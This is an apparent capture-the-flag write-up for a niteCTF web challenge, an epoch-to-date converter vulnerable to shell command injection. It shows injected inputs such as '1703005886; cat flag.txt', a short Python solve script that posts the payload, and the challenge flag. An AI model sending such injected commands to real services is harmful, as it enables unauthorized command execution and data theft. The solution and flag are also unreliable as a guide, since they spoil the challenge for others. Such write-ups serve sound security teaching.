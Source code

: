 # ERaaS

```
Emergency response? Afraid not.

Author: ravinesPlains

Link: http://eraas.web.nitectf.live
```

## POC

There was a web service that converts epoch timestamps into human-readable dates, I stumbled upon what seemed to be a potential Command Injection vulnerability.

![1](images/1.png)

My initial suspicion led me to believe that the underlying command used for conversion might be something like:

```bash
date -d @user_input
```

This got me thinking that if I could inject my own input, I might be able to execute arbitrary commands. To confirm this, I attempted to list the files in the system by injecting the command:

```bash
1703005886; ls
```

To my delight, I discovered a file named flag.txt.

![2](images/2.png)

With this crucial information, I proceeded to print the contents of flag.txt using the following exploit:

```bash
1703005886; cat flag.txt
```

As expected, the flag was successfully revealed.

![3](images/3.png)

## solve.py

```python
import re
import requests

url = "http://eraas.web.nitectf.live"

data = {
    "user_input": "1702957802; cat flag.txt"
}

r = requests.post(url, data=data)

flag = re.findall(r"nite{.*}", r.text)[0]

print(flag)
```

## Flag

`nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`
